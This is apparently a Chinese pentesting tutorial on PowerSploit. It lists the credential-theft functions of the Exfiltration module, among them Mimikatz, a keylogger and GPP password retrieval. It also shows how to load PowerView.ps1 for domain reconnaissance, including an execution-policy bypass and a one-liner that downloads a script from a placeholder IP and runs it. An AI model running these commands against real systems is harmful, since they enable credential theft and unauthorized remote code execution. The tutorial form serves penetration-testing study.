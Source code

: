 ## Exfiltration

**`Import-Module ./Exfiltration`**    导入模块

`Get-Command -Module Exfiltration` 查看模块有哪些命令

`Get-Help xxx`                   查看命令怎么用

```
Get-Command -Module Exfiltration*
CommandType     Name                                               ModuleName  
-----------     ----                                               ----------  
Function        Get-GPPPassword                                    Exfiltration
记录用户的键盘输入 Function        Get-Keystrokes                                     Exfiltration
运行后就会后台执行，然后键盘输出就会保存在文件中了。
Function        Get-TimedScreenshot                                Exfiltration
Function        Get-VaultCredential                                Exfiltration
Function        Get-VolumeShadowCopy                               Exfiltration
Function        Invoke-CredentialInjection                         Exfiltration
Function        Invoke-Mimikatz                                    Exfiltration
Function        Invoke-NinjaCopy                                   Exfiltration
Function        Invoke-TokenManipulation                           Exfiltration
Function        Mount-VolumeShadowCopy                             Exfiltration
Function        New-VolumeShadowCopy                               Exfiltration
Function        Out-Minidump                                       Exfiltration
Function        Remove-VolumeShadowCopy                            Exfiltration
```

本文主要讲的是PowerSploit用于搜索域信息的模块，其他模块用法一致。

首先，我们想用里面哪个脚本，就先下载该脚本，然后导入该脚本，执行其中的模块。我们以PowerView.ps1脚本为例，该脚本主要用于搜集域信息。

- 我们先下载PowerView.ps1脚本到本地，然后在当前目录下打开cmd，执行以下命令执行PowerView.ps1脚本中的Get-NetDomain模块，如果要执行该脚本的其他模块，亦是如此
- powershell       -exec bypass Import-Module .\powerview.ps1;Get-NetDomain 

如果需要远程加载模块的话，我们先将PowerView.ps1放到我们的http服务目录下，然后执行以下命令

- powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/powerview.ps1');import-module .\powerview.ps1;Get-NetDomain



## PowerView.ps1脚本的使用：

PowerView.ps1脚本位于PowerSploit的Recon目录下，该模块主要用于域内信息的收集。

![image-20220827185746860](powershell.assets/image-20220827185746860.png)

